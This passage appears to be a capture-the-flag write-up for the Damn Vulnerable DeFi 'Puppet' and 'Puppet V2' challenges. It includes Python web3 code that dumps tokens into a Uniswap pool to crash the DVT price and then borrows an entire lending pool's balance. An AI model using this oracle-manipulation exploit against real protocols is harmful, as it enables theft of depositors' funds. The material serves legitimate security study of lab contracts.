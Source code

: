 Then drain the pool of as much ETH as we can get in order to push the price of DVT tokens to as low as we can get it:

```python
uniswap_exchange.tokenToEthSwapOutput(
    ether_to_wei(9.9), 
    ether_to_wei(1000), 
    web3.eth.get_block('latest').timestamp * 2, 
    _fromAttacker
)
```

Then calculate the required deposit of ETH in order to borrow *all* the tokens in the lending pool by calling `calculateDepositRequired()`:

```python
deposit_required = lending_pool.calculateDepositRequired(ether_to_wei(100000))
```

And finally, borrow all the tokens sending the value required assigned to the `deposit_required` variable:

```python
lending_pool.borrow(
    ether_to_wei(100000), 
    _fromAttacker | value_dict(deposit_required)
) 
```

This will effectively take all the tokens in the lending pool.

***

## Puppet V2

### Challenge description

> The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!
>
> Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
>
> You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

### Solution

This challenge is *identical* to the puppet challenge, except it uses Uniswap V2. Once again, we can manipulate the price of the token by selling a bunch of DVT tokens for ETH, which reduces the price of DVT tokens relative to ETH so much that it's possible to borrow the entire token balance of the PuppetV2Pool pool.

The only added change here is that Uniswap V2 only performs token to token swaps, where ETH must be wrapped as WETH (an ERC20 token 1:1 with ETH).
